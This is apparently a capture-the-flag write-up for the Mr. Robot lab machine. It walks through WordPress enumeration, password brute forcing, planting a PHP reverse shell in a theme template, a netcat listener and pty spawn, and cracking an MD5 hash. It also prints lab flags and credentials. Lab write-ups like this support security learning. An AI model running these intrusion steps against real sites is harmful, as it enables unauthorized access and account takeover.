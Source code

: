 # My writeup for MR. ROBOT machine
Let's get started with nmap scan. I found three ports open for ssh, http, https

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/12744873-28e5-4421-a54b-483987e7d9db)
# Enumerate the website on port 80
When i explore a webiste i always start with /robots.txt to see unwanted paths

![robots](https://github.com/moataz-bellah/writeups/assets/47069499/4fafa00f-d27f-45c4-b6c4-d03ed1b97a38)
Here we it is, we found flag 1 and an interesting file "fsosity.dic"
Going to /key-1-of-3.txt and we have flag 1 073403c8a58a1f80d943455fb30724b9
![flag1](https://github.com/moataz-bellah/writeups/assets/47069499/035767d7-e45d-4ac7-a2c8-fa83cc9ed8aa)
Let's check fsosity.dic later and continue enumeration. I did directory busting
```
sudo dirb http://192.168.0.105
```
I a lot of directories but i want to focus on three directories
```
http://192.168.0.105/0/
http://192.168.0.105/wp-admin/login
http://192.168.0.105/admin/robot
```
As we see it is a wordpress app. I went to /0/ and found a normal page has nothing to look for, so let's move to /wp-admin/login
First thing i tried is login with default credentials of wordpress but i didn't work. However i noticed somthing interesting.
![invalid_username](https://github.com/moataz-bellah/writeups/assets/47069499/d629ec5e-da2c-4333-bbc5-187baaaf0668)
As we see it tells me invalid username which means that page has poor validation. We can take advantage of that and brute force the username
and password. Back to fsocity.dic and explore it.
```
sort fsocity.dic | uniq > wordlist
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
It has random words it seems to be a dictionary of usernames or passwords
I checked to wordcount of the file
```
cat fsocity.dic | wc -l
858160
```
Let's see if that file has duplicates
```
sort fsocity.dic | uniq | wc -l
11451
```
As we see, we have a lot of duplicates. I created a new instance of that file without duplicates 
```
sort fsocity.dic | uniq > wordlist
```
Now we have a wordlist, let' see if it has username or password we can use to login.
Back to the login page, i tried a random username "elliot" and i was lucky.
![login](https://github.com/moataz-bellah/writeups/assets/47069499/e7c29d49-c17d-4369-a790-bddd6c0ced75)
That tells us the username we entered is correct and we just need to brute force the password
I wrote a python script to brute force the username and password
- Script to brute force username
![username_script](https://github.com/moataz-bellah/writeups/assets/47069499/3d325f5f-9a0e-4c51-89e0-1fe1b4dd175f)
- Script to brute force password
![password_script2](https://github.com/moataz-bellah/writeups/assets/47069499/877e92cf-5bb8-44f4-b2bd-c659336ed281)
After running the scripts we have the username: "elliot" and password: "ER28-0652". Let's login using these credentials
![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/cf3bfb4c-a19f-46e6-bd63-86ac486f31cd)
I was exploring the dashboard trying to find anything useful but i didn't. So i did some research about ideas to get reverse shell in wordpress
and i found that great resourse https://www.hackingarticles.in/wordpress-reverse-shell/
According to the above link i went to appearance, then editor.
![reverse_shell2](https://github.com/moataz-bellah/writeups/assets/47069499/a02ef163-13f2-4bfd-b7a7-3beed04d069f)
1: I looked for a php reverse shell online, and i put it inside the editor

2: Changed templates to 404 Template  

![reverse_shell](https://github.com/moataz-bellah/writeups/assets/47069499/20358daa-4e05-4470-85dd-b509e78c95ed)

3: Update File  

To get reverse shell we need to visit http://192.168.0.105/wp-content/themes/twentyfifteen/404.php. But before that we need to
listen to any incoming connection
```
sudo nc -nvlp 4444
```
Now we execute the shell by visiting /wp-content/themes/twentyfifteen/404.php, and yeah we got a shell
![shell](https://github.com/moataz-bellah/writeups/assets/47069499/f21a4844-6fae-4b19-82ef-4b642bab8eb8)
Let's switch to pty
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Our current user is daemon. Let's visit /home
```
cd /home
ls
robot
```
See what inside robot
```
ls robot
key-2-of-3.txt  password.raw-md5
```
We have flag 2 but our user doesn't have permission to open, so we need to switch to robot user. Look we have interesting file password.raw-md5
```
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
We have a username and a hashed password. Let's try to crack that hash. I tried that website and it worked https://crackstation.net/
and that is the cracked hash is abcdefghijklmnopqrstuvwxyz. Let's switch to robot using that password
```
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$
```
Yeah we are robot, and now we can read flag 2 
```
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
# Privilege Escalation
